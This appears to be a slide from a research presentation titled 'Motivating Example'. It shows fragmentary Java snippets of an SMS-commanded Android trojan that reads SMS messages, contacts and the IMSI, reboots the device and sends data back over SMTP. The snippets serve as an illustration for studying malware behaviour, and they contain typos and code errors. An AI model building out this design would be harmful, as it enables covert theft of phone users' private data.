

| 36 public void onReceiver(Context context, Intent intent){ 37   String body = smsMessage.getMessageBody(); 38   // Get the telephone of the sender 39   String sender = smsMessage.getOriginatingAddress(); 40   // Check if the SMS is sent form the controller 41   if(equals(sender, "6223\*\*60")) { 42     procCMD(Interger.parseInt(body), body); 43   } 44   ... 45 } |
| --- |
| 26 public boolean equals(String s1, String s2) { 27   if(s1.count != s2.count) 28     return false; 29   if(s1.hashCode() != s2.hashCode()) 30     return false; 31   for(int i = 0; i < count; ++i) 32     if (s1.charAt(i) != s2.charAt(i)) 33       return false; 34   return true; 35 } |
| --- |

Handle received SMS
Check the source of SMS

| 11 private void procCMD(String cmd, String msg){ 12   if(cmd == “cm”) { 13     readSMS(); // Read SMS content 14   } else if(cmd == “cq”) { 15     readContact(); // Read Contact content 16   } else if(cmd == “qf”) { 17     readIMSI(); // Read device IMSI information 18   } else if(cmd == “df”) { 19     rebootDevice(); // Reboot the device 20   } else if(cmd == “dy”) { 21     parseMSG(msg); // Parse msg in native code 22   } else { // The command is unrconginized. 23     reply("Unknown command!"); 24   } 25 } |
| --- |
| 1 public static native void readContact(); 2 public static native void parseMSG(String msg); 3 private void readIMSI(){ 4   TelephonyManager telephonyManager = 5     (TelephonyManager) getSystemService( 6                    Context.TELEPHONY\_SERVICE); 7   String imsi = telephonyManager.getSubscriberId(); 8   // Send back data through SMTP protocol 9   smtpReply(imis); 10 } |
| --- |

Take actions according to commands
Parse commands in SMS
# Motivating Example
6